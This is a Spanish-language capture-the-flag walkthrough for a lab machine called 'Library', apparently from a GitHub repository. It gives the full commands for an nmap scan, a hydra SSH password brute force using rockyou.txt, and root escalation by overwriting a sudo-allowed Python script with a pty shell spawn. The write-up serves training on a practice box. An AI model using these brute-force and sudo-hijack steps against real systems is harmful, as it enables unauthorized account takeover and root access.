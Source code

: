 # **Guía Paso a Paso: Explotación de Library**

## Paso 1 - Vemos que puertos tiene abiertos.

El primer paso es realizar un escaneo de puertos para conocer los servicios expuestos en la máquina. Utilizamos nmap con los parámetros para detectar el sistema operativo, los servicios y las versiones de los puertos abiertos.

![](Imagenes/1.png)

```bash
nmap -sC -sV -O -A 10.10.61.221
```

## Paso 2 - Acceso a la Página Web.

El siguiente paso es acceder a la página web en el puerto 80. La página muestra un blog con el título: "Welcome to Blog - Library Machine". Es un sitio básico pero proporciona una interfaz para investigar más.

![](Imagenes/2.png)

Tambien vemos que el usuario puede ser Meliodas

## Paso 3 - Robots.txt.

Se encontró un archivo robots.txt, que es importante para la enumeración del contenido del sitio web. Esto normalmente indica las áreas que están restringidas a los motores de búsqueda, pero pueden ser útiles en el proceso de exploración.

![](Imagenes/3.png)

## Paso 4 - Fuerza bruta con hydra.

Como vimos antes el SSH estaba abierto en el puerto 22 vamos hacer una fuerza bruta usando rockyou.txt por ssh a esa ip.

Probaremos con el usuario meliodas, este seria el comando para hacer fuerza bruta con hydra.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.61.221 ssh
```

![](Imagenes/4.png)

Ya tenemos la contraseña de meliodad.


## Paso 5 - Hacemos login por ssh.

```bash
ssh meliodas@10.10.61.221 
```
![](Imagenes/5.png)

Como vemos en la imagen somos usuarios normal, vamos a probar ser root mas tarde para sacar la ultima flags


## Paso 6 - Buscamos la 1 flag.

Si vemos que carpetas tiene con un ll, vemos que tiene algo muy goloso (`User.txt`).

Vamos hacer un cat para que nos muestre la primera Flag

![](Imagenes/6.png)

## Paso 7 - Vamos ha ser Root.

El fichero con la extensión .bak.py probablemente sea un archivo de respaldo (backup) de un archivo Python (.py). En muchos sistemas, los archivos con la extensión .bak son utilizados para guardar una copia de seguridad de un archivo original antes de realizar cambios importantes o modificaciones.

![](Imagenes/7.png)

Dado que bak.py tiene permisos para ejecutarse con sudo NOPASSWD, Vamos a elimínarlo y crea un nuevo archivo.

```bash
rm bak.py
```

![](Imagenes/8.png)

```bash
echo 'import pty;pty.spawn("/bin/sh")' > /home/meliodas/bak.py
```

![](Imagenes/9.png)

## Paso 8 - Ejecutamos el Bak.py y Buscamos la ultima Flag.

```bash
sudo python /home/meliodas/bak.py
```
Como dato la terminal es un mala para negavar

![](Imagenes/10.png)


![](Imagenes/11.png)


Ya Habriamos terminado la maquina.